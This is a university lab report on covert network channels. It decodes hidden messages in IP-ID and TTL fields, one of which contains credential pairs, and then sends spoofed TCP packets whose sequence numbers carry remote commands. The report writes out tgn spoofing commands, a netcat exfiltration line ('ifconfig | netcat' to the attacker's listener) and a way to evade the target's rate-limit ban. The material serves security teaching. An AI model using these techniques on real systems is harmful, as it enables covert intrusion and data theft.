\documentclass{article}
\usepackage{geometry}
 \geometry{
 a4paper,
 total={210mm,297mm},
 left=20mm,
 right=20mm,
 top=20mm,
 bottom=20mm,
 }
\usepackage{siunitx} % Provides the \SI{}{} command for typesetting SI units
\usepackage{listings}
\usepackage{graphicx} % Required for the inclusion of images
\usepackage{enumerate}
\usepackage{float}
\setlength\parindent{0pt} % Removes all indentation from paragraphs
\title{\textbf{Lab Exercise: Covert Channels} \\
Network Security - Advanced Topics (VU 389.160) WS 2014/2015 \\
Communication Networks Group at the Institute of Telecommunications \\
Vienna University of Technology } % Title

\author{Simon \textsc{Hellmayr (0825942)}, Peter \textsc{Eder-Neuhauser (1329364)} \\[0.7cm] \LARGE Team: 02} % Author name

\date{\today} % Date for the report
\begin{document}

\maketitle % Insert the title, author and date


%----------------------------------------------------------------------------------------
%	SECTION 1
%----------------------------------------------------------------------------------------
\renewcommand{\arraystretch}{2} %Stretch rows
\section*{Exercise 1: Live Capturing of Covert Channels}

\subsection*{Rep. 1.a - Capturing Traffic}
By use of the terminal and the "ifconfig" command the local IP address of the confiscated notebook was found:
\begin{verbatim}
192.168.67.26
\end{verbatim}

\subsection*{Rep. 1.b - Presumed Perpetrator}
The IP addresses of the communication partners of the confiscated notebook with 192.168.67.26 are:
\begin{verbatim}
192.168.67.50 (presumably perpetrator) and 192.168.67.1 (presumably router)
\end{verbatim}

\subsection*{Rep. 1.c - Filter}
The relevant data was filtered by source \& destination IP and exported using Wireshark:
\begin{enumerate}
	\item Filter in Wireshark using the command: (ip.src == 192.168.67.50) \&\& (ip.dst == 192.168.67.26)
	\item Export to CSV: team02\_filtered.csv
	\item Converted HEX to decimal via only\_decimal.sh shell script and stored into: team02\_filtered\_dec.csv
\end{enumerate} 

\subsection*{Rep. 1.d - Rapid Miner \& Discovery by Histogram}
The histogram in Rapidminer was used to gain knowledge about the distribution of values in the messages.

\begin{enumerate}
	\item Imported team02\_filtered\_dec.csv in Rapidminer
	\item By the use of two protocol fields (standard Protocol and ip.proto), it becomes visible that all traffic is split in TCP and UDP. The UDP traffic is then split into UDP and NTP
	\item TTL is constant at 64, which means there is no entropy to store information
	\item The source port varies for each stream, but not in any visible way that seems suitable for communication
	\item The TCP flags have virtually no distribution
\end{enumerate} 

\subsection*{Rep. 1.e \& 1.f - Rapid Miner \& Discovery by Scatter Plot}
Using the scatter plot feature in Rapidminer, no meaningful distribution was found, except in the "ip.id" field distributed over time/packet number. The covert channel was discovered from varying ports on 192.168.67.50 to 192.168.67.26:123 via NTP/UDP.\\

Figure \ref{fig:RMscreen} shows letter-clouds in the scatter plot between the ip.id values 10.000 and 32.500.
\begin{figure}[H] 
	\centering % centering figure 
	%\scalebox{0.5} % rescale the figure by a factor of 0.8 
	{
\includegraphics[width=\textwidth]{images/RMscreen.png}} % importing figure
	\caption{Rapidminer Scatter Plot for ip.id} 
	\label{fig:RMscreen} % labeling to refer it inside the text
\end{figure} 

\subsection*{Rep. 1.g - Deployed Filter}
The deployed Wireshark filter to export the data is as follows:\\
(ip.dst == 192.168.67.26) \&\& (ip.src == 192.168.67.50) \&\& (udp.dstport == 123)

\subsection*{Rep. 1.h - Decoded Message}
The following steps were used to clean up the information on the subliminal channel and decode the message:

\begin{enumerate}
\item Export the ip.id field from Wireshark as .csv
\item Open the .csv-File in the program "Sublime Text 3" and visually delete all superfluous information and extract byte 4 and 5 only.
\item Example: The string in the Wireshark output file of Line \#1 looks like the following:
\begin{verbatim}
"0x7e00 (32256)"
\end{verbatim}

After extracting the information, each line contains two Hex-characters with the relevant information. Line \#1:
\begin{verbatim}
7e
\end{verbatim}

\newpage

\item After deleting the newline characters, a hexadecimal string remains:

\begin{verbatim}
7e004e6f7631303a546f6d324a657272792c447374506f72743a3434332c63683a696e54544c73
2c52696768742d4d53420a4e6f7631303a546f6d324a657272792c447374506f72743a3434332c
63683a696e54544c732c52696768742d4d53420a4e6f7631303a546f6d324a657272792c447374
506f72743a3434332c63683a696e54544c732c52696768742d7e004e6f7631303a546f6d324a65
7272792c447374506f72743a3434332c63683a696e54544c732c52696768742d4d53420a4e6f76
31303a546f6d324a657272792c447374506f72743a3434332c63683a696e54544c732c52696768
742d4d53420a4e6f7631303a546f6d324a657272792c447374506f72743a3434332c63683a696e
54544c732c52696768742d7e004e6f7631303a546f6d324a657272792c447374506f72743a3434
332c63683a696e54544c732c52696768742d4d53420a4e6f7631303a546f6d324a657272792c44
7374506f72743a3434332c63683a696e54544c732c52696768742d4d53420a4e6f7631303a546f
6d324a657272792c447374506f72743a3434332c63683a696e54544c732c5269676874
\end{verbatim}

This result represents several repetitions of the following string including newlines and few random characters:

\begin{verbatim}
4e6f7631303a546f6d324a657272792c447374506f72743a3434332c63683a696e54544c732c52
696768742d4d5342
\end{verbatim}

Alternatively, Matlab or regular expressions could be used to filter the hexadecimal values.

\item A hint provided in the instructions pointed to ASCII/8-Byte Hex encoding for the string. Python provides a simple decoder for this type of information:

\begin{verbatim}
decoded_string = encoded_string.decode("hex")
\end{verbatim}
\end{enumerate}

\subsection*{Exercise. 1 - Results}
The decoded message provides information to yet another covert channel:
\begin{verbatim}
Nov10:Tom2Jerry,DstPort:443,ch:inTTLs,Right-MSB
\end{verbatim}





%----------------------------------------------------------------------------------------
%	SECTION 2
%----------------------------------------------------------------------------------------
\newpage
\section*{Exercise 2 - A New Covert Channel}

\subsection*{Rep. 2a - Interpret every word of the decoded message from exercise 1}
This message is interpreted as follows. There will be another covert channel from Tom (leaking machine) to Jerry (malicious confiscated notebook) on destination port 443 using the TTL-field, with the most significant bit (MSB) on the right. 

\subsection*{Rep. 2b - Finding the binary covert channel}
Using the information from exercise 1, the team's pcap file was loaded into Wireshark and all traffic filtered by destination port 443. Most of the traffic shows TTL=64, however two source IP's (.57, .58) were sending information to destination port 443 with wildly fluctuating TTL-values between 37-59. The data was filtered by destination port 443 and source IP's (.57 \& .58) and exported as a CSV-file for further analysis:
\begin{enumerate}
\item Scatter plots of the TTL-values over time in Rapid Miner show that the distribution of TTL-values look somewhat similar to a 'symbol-cloud', not unlike the letter-cloud from exercise 1.
\item The tool provided by the tutors was used to analyze the symbol count of the two senders, arriving at approx. 13 and 15 symbols for the source IP's 57 \& 58
\end{enumerate}

At this point, false conclusions were made implying suspicion about the possibility of another covert channel in the IP-ID field, encrypted using the TTL-values as key. After reasoning that:
\begin{itemize}
\item the data in the IP-ID fields appears to be random,
\item there already had been a covert IP-ID channel in exercise 1 and
\item it was unclear whether or not the covert channel in the TTL field was supposed to be human-readable
\end{itemize}
it was concluded that a) sending a key in the same packets would be unwise (which does not imply that it was not an option) and b) the attackers obviously violate Kerckhoff's principle (see Ex.1) and that it would therefore be pragmatic to examine the data in the TTL field by itself.\\

Since all advances yielded nothing, all steps were repeated to check for oversights and new pieces of evidence. Following the advice of the tutors, the output data of the multimodality estimation script was re-checked for anomalies:

\begin{verbatim}
         Source		 Packets	 States	        Symbols
 -------------------------------------------------------------- 
 192.168.198.058	    1085	     24	    13.55280957
 192.168.205.001	       3	      1	     1.00000000
 192.168.202.172	      62	      1	     1.00000000
 192.168.198.049	   16909	      2	    	 1.00036268
 192.168.198.057	    1564	     24	    15.38429506
 192.168.205.062	       3	      1	     1.00000000
 192.168.198.001	      14	      1	     1.00000000
 192.168.202.001	      19	      1	     1.00000000
\end{verbatim}

After checking the traffic in Wireshark and Rapidminer, it became apparent that there was a binary channel from several source ports at 192.168.198.049 to 192.168.22.2:443. The data was filtered in Wireshark using the following command:
\begin{verbatim}
(((((ip.src == 192.168.198.49) && (tcp.dstport == 443))) && (ip.dst == 192.168.22.2))))
\end{verbatim}

Due to the spreading of data around several source ports a closer look was taken at the scatter plots, specifically source ports over packet number. (see figure \ref{fig:RMscreen2} and figure \ref{fig:RMscreen3}). After determining the port in question, the Wireshark filter was refined to the following:
\begin{verbatim}
((((((ip.src == 192.168.198.49) && (tcp.dstport == 443))) && (ip.dst == 192.168.22.2)))) 
&& (tcp.srcport == 51783)
\end{verbatim}

\begin{figure}[H] 
	\centering % centering figure 
	%\scalebox{0.5} % rescale the figure by a factor of 0.8 
	{
\includegraphics[width=\textwidth]{images/ex2_scatter_src_no_49_2_wide.png}} % importing figure
	\caption{Rapidminer scatter plot for source port vs. packet no. for a wide range of packets} 
	\label{fig:RMscreen2} % labeling to refer it inside the text
\end{figure} 
\begin{figure}[H] 
	\centering % centering figure 
	%\scalebox{0.5} % rescale the figure by a factor of 0.8 
	{
\includegraphics[width=\textwidth]{images/ex2_scatter_src_no_49_2_tight.png}} % importing figure
	\caption{Rapidminer scatter plot for source port vs. packet no. zoomed in on an anomalous burst} 
	\label{fig:RMscreen3} % labeling to refer it inside the text
\end{figure} 


\newpage
\subsection*{Exercise 2 - Decoding the binary channel}
The following steps were taken to determine whether the captured stream contains the desired traffic for decoding:
\begin{itemize}
\item Export TTL values with the filter applied as .csv file to get a list of all values. The values are 56(1) and 64(0) for all packets, implying a clean binary channel.
\item Convert the values to 0 and 1 using the LibreOffice's spreadsheet program (Excel equivalent) and string the values together to return the bitstring: 
\begin{verbatim}
01111110000000001010111001011100110011100001011010000110101
10110100101100100111000110100000011100101110001000110100001
10001001100000111011101110001101001010111001011100111001100
01101101000011000100110111100101100101000110100000011100101
11001100011010000110110101101010011000110100101011100101110
00100011010000110001011101011011010000110001101000000111001
01110001001110111101100100011010010110011101100101000010101
11001011100110011100001011010000110101101101001011001001110
00110100000011100101110001000110100001100010011000001110111
01110001101001010111001011100111001100011011010000110001001
10111100101100101000110100000011100101110011000110100001101
101011010100110
\end{verbatim}
This binary traffic looks promising, because of what looks like a symmetric initialization sequence (01111110) and a buffer sequence before the payload starts (00000000).

\item Reversing the bitorder using Python since ASCII encoding has the MSB on the left. From the hint in exercise 1 it is known that Right-MSB is given, therefore the bitorder inside the bytes has to be reversed. The payload was copied into a variable called string and reversed by using string[::-1] in Python.
\item Convert the resulting bitstring to ASCII using an online decoder. This yields the desired text, but with backwards letter-order
\item To finalize the text it was copied back into Python and reverse the symbol-order again to receive the "decoded" text:
\end{itemize}

\begin{verbatim}
'u:shamir,p:badpw,u:gladOS,p:cake,u:batma,p:robin u:shamir,p:badpw,u:gladOS,p:cake'
\end{verbatim}

The result is a list of user/password combinations.

\newpage
\section*{Exercise 3 - Using Covert Channels}

By looking at the traffic appearing in the Wireshark capture on the second screen, Jerry's machine was found to have the IP address 192.168.67.26, and the local IP of Tom was determined by using ifconfig (192.168.67.31).

The terminal was used to ping the other computer:
\begin{verbatim}
ping 192.168.67.26
\end{verbatim}

\subsection*{Rep. 3b - Firewall}
The ping attempt clearly appeared on the other machine's Wireshark screen. However, the ping was not returned. The conclusion drawn from this is that ingress filtering may be responsible by the use of firewall software in the application layer. If the filtering had been conducted in the network layer, the ping would not have appeared in the Wireshark capture as incoming ping in the first place.

\subsection*{Rep. 3c - Manipulating TCP packets to execute commands}
In order to execute commands on Jerry's computer, spoofed packets were sent to the three web servers using tgn. The following commands were used in the terminal (see table for the specific field values):
\begin{verbatim}
team02@ubuntu:~$ sudo tgn -v "ip(src = 192.168.67.26, dst = 192.168.67.220, ttl=64)/
tcp(src = 8888, dst = 80, syn, seq=107)"
Sent 1 packets.
team02@ubuntu:~$ sudo tgn -v "ip(src = 192.168.67.26, dst = 192.168.67.220, ttl=64)/
tcp(src = 8888, dst = 80, syn, seq=114)"
Sent 1 packets.
team02@ubuntu:~$ sudo tgn -v "ip(src = 192.168.67.26, dst = 192.168.67.220, ttl=64)/
tcp(src = 8888, dst = 80, syn, seq=12)"
\end{verbatim}
The option -v outputs the status of the program verbosely, so whether or not packets have been sent can be seen by the users. 

\begin{center}
    \begin{tabular}{ | l | l | l | l | l | l | l | l | }
    \hline
    Src. IP & Dst. IP & TTL & Src. Port & Dst. Port & seq & ASCII Dec & ASCII\\ \hline
    192.168.67.26 & 192.168.67.200 & 64 & 8888 & 80 & 107 & 108 & l\\ \hline
    192.168.67.26 & 192.168.67.200 & 64 & 8888 & 80 & 114 & 115 & s\\ \hline
    192.168.67.26 & 192.168.67.200 & 64 & 8888 & 80 & 12 & 13 & [CR] \\ \hline
    \end{tabular}
\end{center}

The ID \& acknowledge sequence values were left out because they are not required explicitly and tgn would fill in default values automatically. After experimenting with this functionality, we discovered that IP's would be banned from sending for 120 seconds by the receiving PC in case they sent more than 10 consecutive packets to the computer.

\subsection*{Rep. 3d - Running ifconfig and transferring data to the Tom-PC}
First, netcat was set up to listen on port 1024 on the Tom-computer using the command:

\begin{verbatim}
netcat -l 1024
\end{verbatim}

The command the needed to be executed on the other computer is:

\begin{verbatim}
ifconfig | netcat 192.168.67.31 1024
\end{verbatim}

Using the capabilities explored in the previous section, the code was pieced together by using the decimal values of the ASCII characters of the command, and wrote bash script that executed the command for each character. A carriage return was included at the end to execute the command. In order to avoid being banned by Jerry's computer, the destination IPs, and therefore the spoofed source IPs were alternated for each line. (see the file netcat\_ifconfig.sh in the directory workfiles/Ex3)

\newpage
After running the script the ifconfig information of Jerry's computer can be seen on Tom's Terminal:

\begin{verbatim}
eth0      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:55  
          inet addr:192.168.67.26  Bcast:192.168.67.255  Mask:255.255.255.0
          inet6 addr: fe80::96de:80ff:fe6f:2e55/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:449738 errors:0 dropped:0 overruns:0 frame:0
          TX packets:301135 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:97545566 (97.5 MB)  TX bytes:39258922 (39.2 MB)
          Interrupt:20 Memory:f3300000-f3320000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:748 errors:0 dropped:0 overruns:0 frame:0
          TX packets:748 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:49180 (49.1 KB)  TX bytes:49180 (49.1 KB)

p3p1      Link encap:Ethernet  HWaddr 94:de:80:6f:2e:45  
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
          Interrupt:19 
\end{verbatim}

We could now use this information about the network interfaces to start capturing packets on the target's network and send this captured traffic back to our computer.

\end{document}
